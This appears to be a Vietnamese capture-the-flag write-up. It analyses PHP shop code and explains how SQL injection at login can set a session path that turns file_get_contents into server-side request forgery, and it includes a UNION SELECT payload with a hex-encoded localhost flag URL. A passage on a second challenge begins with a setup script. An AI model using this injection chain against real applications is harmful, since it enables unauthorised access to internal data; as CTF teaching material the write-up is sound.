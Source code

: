 ```php=
include("config.php");
session_start();
if (!isset($_SESSION['username']))
    die(header("location: login.php"));

$items_img = json_decode(file_get_contents(BASE_API_URL . "/items.json"))->{"msg"};
$items = json_decode(file_get_contents(BASE_API_URL . $_SESSION["api_path"] . "/items.json"))->{"msg"};

$items_img = (array)$items_img;
$items = (array)$items;

?>
```
- `BASE_API_URL` được set là `http://shop-api:8080` trong file `config.php`
- `file_get_contents` đọc file `/items.json`
- `file_get_contents` cũng đọc file `/items.json` nhưng trước nó là 1 đường dẫn khác đó là `$_SESSION["api_path"]`

### IDEA
- Đầu tiên, chúng ta có SQLi ở login
- Cần SSRF để truy cập từ localhost vô `/flag.txt` để get flag
- File `shopping.php` có sử dụng hàm `file_get_contents` => có thể lợi dụng funtion này để SSRF
- Ở `file_get_contents` thứ 2 có chứa `$_SESSION["api_path]` mà chúng ta có thể control được => sử dụng SQLi tạo `api_path` theo ý mình muốn

### Payload
```
username=\&password= union select 1,0x403132372e302e302e312f666c61672e70687023-- -
```

# Challenge SecureNote
### Phân tích code
File `setup_flag.py`
```python=
import requests
import secrets
import time

URL = 'http://127.0.0.1:8000'
USERNAME = "admin"
PASSWORD = '###REDACTED###'
SECRETKEY = '###REDACTED###'

print('[+] Working...')

time.sleep(10)

s = requests.Session()

r = s.post(URL + '/register', data={
    'username': USERNAME,
    'password': PASSWORD,
    'repassword': PASSWORD,
    'secretkey': SECRETKEY,
})

s.post(URL + '/login', data={
    'username': USERNAME,
    'password': PASSWORD,
})
```
